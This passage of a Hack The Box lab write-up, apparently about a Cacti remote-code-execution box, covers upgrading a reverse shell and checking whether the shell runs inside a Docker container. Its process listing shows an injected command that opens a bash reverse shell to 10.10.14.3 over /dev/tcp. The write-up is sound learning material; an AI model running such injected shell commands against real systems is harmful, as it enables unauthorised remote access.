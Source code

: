 Upgrading the reverse shell[^upgrade-reverse-shell]:
- **Since python or python3 isn't available, there is another way to spawn /bin/bash with a pty.** `script -O /dev/null -c /bin/bash`. Once that completes, follow the rest of the steps to have a full pty. 

There isn't a lot of processes being displayed. It is possible that the proc filesystem has the `hidepid=2` option set or that we are inside a Docker container. 

```bash
www-data@50bca5e748b0:/var/www/html$ ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.6  80160 25416 ?        Ss   00:46   0:01 apache2 -DFOREGROUND
www-data      33  0.0  0.6  87116 24168 ?        S    00:46   0:00 apache2 -DFOREGROUND
www-data      34  0.0  0.6  86996 24272 ?        S    00:46   0:00 apache2 -DFOREGROUND
www-data      35  0.0  0.5  87124 24072 ?        S    00:46   0:00 apache2 -DFOREGROUND
www-data      36  0.0  0.6  87084 24420 ?        S    00:46   0:00 apache2 -DFOREGROUND
www-data      37  0.0  0.6  87116 24372 ?        S    00:46   0:00 apache2 -DFOREGROUND
www-data      38  0.0  0.6  87068 24476 ?        S    00:49   0:00 apache2 -DFOREGROUND
www-data      93  0.0  0.0   2476   576 ?        S    05:19   0:00 sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.3/5555 0>&1'
www-data      95  0.0  0.0   3892  2732 ?        S    05:19   0:00 bash -c bash -i >& /dev/tcp/10.10.14.3/5555 0>&1
www-data      96  0.0  0.0   4156  3444 ?        S    05:19   0:00 bash -i
www-data     304  0.0  0.0   6752  2960 ?        R    15:02   0:00 ps aux
```

### Docker

A few techniques to check if we are in a Docker container[^docker-breakout]. 
- hostname is randomly assigned 12 character string
- the presence of .dockerenv in /
- checking the cgroup process

```bash
www-data@50bca5e748b0:/var/www/html$ hostname
hostname
50bca5e748b0
www-data@50bca5e748b0:/var/www/html$ ls -la / | grep .dockerenv
ls -la / | grep .dockerenv
-rwxr-xr-x   1 root root    0 Mar 21  2023 .dockerenv
www-data@50bca5e748b0:/var/www/html$ cat /proc/1/cgroup
cat /proc/1/cgroup
12:freezer:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
11:devices:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
10:blkio:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
9:hugetlb:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
8:rdma:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
7:pids:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
6:cpuset:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
5:perf_event:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
4:memory:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
3:net_cls,net_prio:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
2:cpu,cpuacct:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
1:name=systemd:/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
0::/docker/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
```


[^htb-link]: <https://app.hackthebox.com/machines/539>
[^cve]: <https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit>
[^cve-2022-46169]: <https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^docker-breakout]: <https://juggernaut-sec.com/docker-breakout-lpe/#Confirming_we_are_in_a_Docker_Container>
[^hashcat]: <https://hashcat.net/wiki/doku.php?id=example_hashes>
[^cve-2021-41091]: <https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/capsh/>